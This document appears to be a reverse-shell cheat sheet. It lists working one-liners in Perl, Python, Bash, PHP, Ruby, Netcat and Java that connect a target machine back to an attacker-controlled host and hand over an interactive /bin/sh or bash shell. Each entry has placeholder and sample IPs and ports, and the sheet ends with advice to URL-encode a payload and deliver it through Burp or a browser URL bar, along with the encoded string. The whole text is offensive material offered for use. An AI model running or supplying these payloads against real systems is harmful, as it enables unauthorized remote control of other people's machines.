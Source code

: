 ### **Bold**= **ATTACKER_IP** and **ATTACKER_PORT**

# Perl

`perl -e 'use Socket;$i="`**ATTACKER_IP**`";$p=`**ATTACKER_PORT**`;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

# Python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("`**ATTACKER_IP**`",`**ATTACKER_PORT**`));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

# Bash

`bash -i >& /dev/tcp/`**ATTACKER_IP**`/`**ATTACKER_PORT**` 0>&1`

**Example:** `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

# PHP

If it doesn’t work, try 4, 5, 6, etc

`php -r '$sock=fsockopen("`**ATTACKER_IP**`",`**ATTACKER_PORT**`);exec("/bin/sh -i <&3 >&3 2>&3");'`

**Example:** `php -r '$sock=fsockopen("10.0.0.1",4321);exec("/bin/sh -i <&3 >&3 2>&3");'`

# Ruby

`ruby -rsocket -e'f=TCPSocket.open("`**ATTACKER_IP**`",`**ATTACKER_PORT**`).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

**Example:** `ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4321).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`


# Netcat

`nc -nv`**ATTACKER_IP** **ATTACKER_PORT**` -e /bin/sh`

`nc -nv` **ATTACKER_IP** **ATTACKER_PORT**` -e /bin/bash`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc`**ATTACKER_IP** **ATTACKER_PORT**` >/tmp/f`

**Example:** `nc -nv 10.0.0.1 4321 -e /bin/sh`

**Example:** `nc -nv 10.0.0.1 4321 -e /bin/bash`

**Example:** `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4321 >/tmp/f`

# Java

`r = Runtime.getRuntime()` 

`p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/`**ATTACKER_IP**`/`**ATTACKER_PORT**`;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()`

**Example:** `r = Runtime.getRuntime()`

`p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4321;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()`

# IMPORTANT

If we don't get a connection back, try to URL encode the payload and execute with Burp or in the URL bar directly.

**Example in Python:**

`python -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.33.159",
53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

**URL Encoding:**

%70%79%74%68%6f%6e%20%2d%63%20%27%69%6d%70%6f%72%74%0a%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%39%32%2e%31%36%38%2e%33%33%2e%31%35%39%22%2c%0a%35%33%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%70%3d%73%75%62%70%72%6f%63%65%73%73%2e%63%61%6c%6c%28%5b%22%2f%62%69%6e%2f%73%68%22%2c%22%2d%69%22%5d%29%3b%27






